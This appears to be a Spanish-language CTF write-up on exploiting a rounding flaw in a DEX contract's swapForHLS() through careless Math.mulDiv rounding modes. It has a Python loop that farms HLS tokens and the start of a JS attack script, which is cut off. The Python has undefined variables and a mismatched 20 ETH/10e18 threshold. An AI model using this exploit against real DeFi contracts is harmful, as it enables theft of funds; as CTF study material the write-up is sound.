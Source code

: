 
### Ejemplo de exploit simplificado

```python
trade_cost = 10**17 + 1 
while True:
    n_trades += 1
    print(f"\n\n[+] Trade #{n_trades}")

    # Realizamos swaps con efecto de redondeo
    csend(target_addr, "swapForHLS()", value=str(trade_cost))

    # Verificamos ganancias en tokens HLS
    hls_balance = int(ccall(hls_token, "balanceOf(address)(uint256)", player_account.address))
    print(f"[+] HLS acumulados: {hls_balance}")

    eth_gain = ((hls_balance - prev_hsl_balance) * (10**18 / exchange_ratio_hsl)) - trade_cost
    total_eth_gain = (hls_balance * (10**18 / exchange_ratio_hsl)) - (trade_cost) * n_trades
    print(f"[+] Ganancia estimada en ETH: {total_eth_gain}")

    prev_hsl_balance = hls_balance

    # Paramos cuando superamos las 20 ETH proyectadas
    if total_eth_gain >= 10e18:
        break
```

---

## Detalle adicional

Los contratos usan `Math.mulDiv()` de OZ sin cuidado al escoger los modos de redondeo:

- Algunos modos dan ventaja al contrato (`Floor`).
- Otros permiten exploits directos (`Ceil` y `Expand`).

Esto permite a un atacante realizar swaps que sistemáticamente obtienen más tokens de lo debido.

---

## Script completo (JS)

```js
require("dotenv").config();
const Web3 = require("web3"); // <-- Use Web3 as the default export, not a named export
const { setupABI, heliosDexABI, erc20ABI } = require('./abis');


async function main() {
  // 1. Initialize Web3
  const rpcUrl = process.env.RPC_URL;
  const web3 = new Web3(rpcUrl);  // Pass the RPC URL directly

  // 2. Load your private key and wallet account
  const privateKey = process.env.PRIVATE_KEY;
  const account = web3.eth.accounts.privateKeyToAccount(privateKey);
  web3.eth.accounts.wallet.add(account);
  web3.eth.defaultAccount = account.address;

  // 3. Addresses
  const setupAddress = process.env.SETUP_ADDRESS;

  // 4. Instantiate Setup contract
  const setupContract = new web3.eth.Contract(setupABI, setupAddress);

```